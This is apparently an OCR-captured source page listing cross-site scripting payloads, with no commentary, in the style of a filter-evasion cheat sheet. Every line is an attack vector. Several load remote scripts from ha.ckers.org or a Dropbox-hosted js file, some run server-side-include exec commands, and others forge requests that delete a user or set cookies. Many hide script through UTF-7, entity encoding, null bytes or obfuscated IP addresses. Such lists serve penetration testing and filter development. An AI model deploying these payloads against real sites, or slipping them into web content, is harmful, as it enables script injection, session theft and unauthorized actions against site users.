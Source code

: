        <OBJECT TYPE="text/x-scriptlet" DATA="http://ha.ckers.org/scriptlet.html"></OBJECT>
      <SCRIPT SRC="http://ha.ckers.org/xss.jpg"></SCRIPT>
      <!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://ha.ckers.org/xss.js></SCRIPT>'"-->
      <? echo('<SCR)';echo('IPT>alert("XSS")</SCRIPT>'); ?>
      <IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
      Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser
      <META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
       <HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-
      <SCRIPT a=">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <SCRIPT =">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <SCRIPT "a='>'" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <SCRIPT a=`>` SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <A HREF="http://66.102.7.147/">XSS</A>
      <A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>
      <A HREF="http://1113982867/">XSS</A>
      <A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>
      <A HREF="http://0102.0146.0007.00000223/">XSS</A>
      <A HREF="htt	p://6	6.000146.0x7.147/">XSS</A>
      <iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00>
      <svg><style>{font-family&colon;'<iframe/onload=confirm(1)>'
      <input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
      <sVg><scRipt %00>alert&lpar;1&rpar; {Opera}
      <img/src=`%00` onerror=this.onerror=confirm(1) 
      <form><isindex formaction="javascript&colon;confirm(1)"
      <img src=`%00`&NewLine; onerror=alert(1)&NewLine;
      <script/&Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&Tab;></script>
      <ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?
      <iframe/src="data:text/html;&Tab;base64&Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">
      <script /*%00*/>/*%00*/alert(1)/*%00*/</script /*%00*/
      &#34;&#62;<h1/onmouseover='\u0061lert(1)'>%00
      <iframe/src="data:text/html,<svg &#111;&#110;load=alert(1)>">
      <meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
      <svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script
      <svg><script x:href='https://dl.dropbox.com/u/13018058/js.js' {Opera}
      <meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
      <iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
      <form><a href="javascript:\u0061lert&#x28;1&#x29;">X
      </script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
      <img/&#09;&#10;&#11; src=`~` onerror=prompt(1)>
      <form><iframe &#09;&#10;&#11; src="javascript&#58;alert(1)"&#11;&#10;&#09;;>
      <a href="data:application/x-x509-user-cert;&NewLine;base64&NewLine;,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="&#09;&#10;&#11;>X</a
      http://www.google<script .com>alert(document.location)</script
      <a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
      <img/src=@&#32;&#13; onerror = prompt('&#49;')
      <style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
      <script ^__^>alert(String.fromCharCode(49))</script ^__^
      </style &#32;><script &#32; :-(>/**/alert(document.location)/**/</script &#32; :-(
      &#00;</form><input type&#61;"date" onfocus="alert(1)">
      <form><textarea &#13; onkeyup='\u0061\u006C\u0065\u0072\u0074&#x28;1&#x29;'>
      <script /***/>/***/confirm('\uFF41\uFF4C\uFF45\uFF52\uFF54\u1455\uFF11\u1450')/***/</script /***/
      <iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
      <a href="javascript:void(0)" onmouseover=&NewLine;javascript:alert(1)&NewLine;>X</a>
      <script ~~~>alert(0%0)</script ~~~>
      <style/onload=&lt;!--&#09;&gt;&#10;alert&#10;&lpar;1&rpar;>